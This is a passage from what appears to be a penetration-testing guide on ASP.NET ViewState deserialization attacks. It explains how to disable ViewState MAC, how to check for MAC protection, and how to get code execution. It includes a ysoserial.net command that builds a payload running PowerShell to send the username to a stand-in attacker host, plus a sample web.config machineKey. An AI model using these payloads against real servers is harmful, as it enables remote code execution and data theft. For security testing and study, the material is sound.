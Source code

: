 
It is also possible to disable the ViewStateMAC completely by setting the `AspNetEnforceViewStateMac` registry key to zero in:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\.NETFramework\v{VersionHere}
```

**Identifying ViewState Attributes**

You can try to identify if ViewState is MAC protected by capturing a request containing this parameter with BurpSuite. If Mac is not used to protect the parameter you can exploit it using [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net)

```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName"
```

<br>

### Test case 1.5 – Like Test case 1 but the ViewState cookie isn't sent by the server

---

Developers can **remove ViewState** from becoming part of an HTTP Request (the user won't receive this cookie).\
One may assume that if **ViewState** is **not present**, their implementation is **secure** from any potential vulnerabilities arising with ViewState deserialization.\
However, that is not the case. If we **add ViewState parameter** to the request body and send our serialized payload created using ysoserial, we will still be able to achieve **code execution** as shown in **Case 1**.

<br>

### Test Case: 2 – .Net < 4.5 and EnableViewStateMac=true & ViewStateEncryptionMode=false

---

In order to **enable ViewState MAC** for a **specific page** we need to make following changes on a specific aspx file:

```bash
<%@ Page Language="C#" AutoEventWireup="true" CodeFile="hello.aspx.cs" Inherits="hello" enableViewStateMac="True"%>
```

We can also do it for **overall** application by setting it on the **web.config** file as shown below:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.web>
<customErrors mode="Off" />
 <machineKey validation="SHA1" validationKey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45" />
 <pages enableViewStateMac="true" />
</system.web>
</configuration>
```
